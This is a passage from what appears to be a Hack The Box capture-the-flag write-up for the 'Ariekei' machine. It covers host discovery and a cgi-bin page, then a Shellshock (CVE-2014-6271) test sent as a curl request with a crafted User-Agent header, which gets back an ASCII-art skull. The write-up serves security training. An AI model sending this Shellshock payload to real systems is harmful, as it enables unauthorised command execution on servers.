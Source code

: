 
We can add both of them to our hosts file ofcourse

* **beehive.ariekei.htb**
    
    Maintainence!
    
    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>
    
    After dirbusting we instantly get a page like this! https://beehive.ariekei.htb/cgi-bin/stats/
    
    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>
    
    This screams shellshock!!
    
    Lets try it out
    
```

root@kali:~/hackthebox/Ariekei# curl -k -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id'  https://beehive.ariekei.htb/cgi-bin/stats/

<pre>
                          oooo$$$$$$$$$$$$oooo
                      oo$$$$$$$$$$$$$$$$$$$$$$$$o
                   oo$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$o         o$   $$ o$
   o $ oo        o$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$o       $$ $$ $$o$
oo $ $ "$      o$$$$$$$$$    $$$$$$$$$$$$$    $$$$$$$$$o       $$$o$$o$
"$$$$$$o$     o$$$$$$$$$      $$$$$$$$$$$      $$$$$$$$$$o    $$$$$$$$
  $$$$$$$    $$$$$$$$$$$      $$$$$$$$$$$      $$$$$$$$$$$$$$$$$$$$$$$
  $$$$$$$$$$$$$$$$$$$$$$$    $$$$$$$$$$$$$    $$$$$$$$$$$$$$  """$$$
   "$$$""""$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     "$$$
    $$$   o$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     "$$$o
   o$$"   $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$       $$$o
   $$$    $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$" "$$$$$$ooooo$$$$o
  o$$$oooo$$$$$  $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$   o$$$$$$$$$$$$$$$$$
  $$$$$$$$"$$$$   $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     $$$$""""""""
 """"       $$$$    "$$$$$$$$$$$$$$$$$$$$$$$$$$$$"      o$$$
            "$$$o     """$$$$$$$$$$$$$$$$$$"$$"         $$$
              $$$o          "$$""$$$$$$""""           o$$$
               $$$$o                                o$$$"
                "$$$$o      o$$$$$$o"$$$$o        o$$$$
                  "$$$$$oo     ""$$$$o$$$$$o   o$$$$""
                     ""$$$$$oooo  "$$$o$$$$$$$$$"""
                        ""$$$$$$$oo $$$$$$$$$$
                                """"$$$$$$$$$$$
                                    $$$$$$$$$$$$
                                     $$$$$$$$$$"
                                      "$$$""""

</pre>
```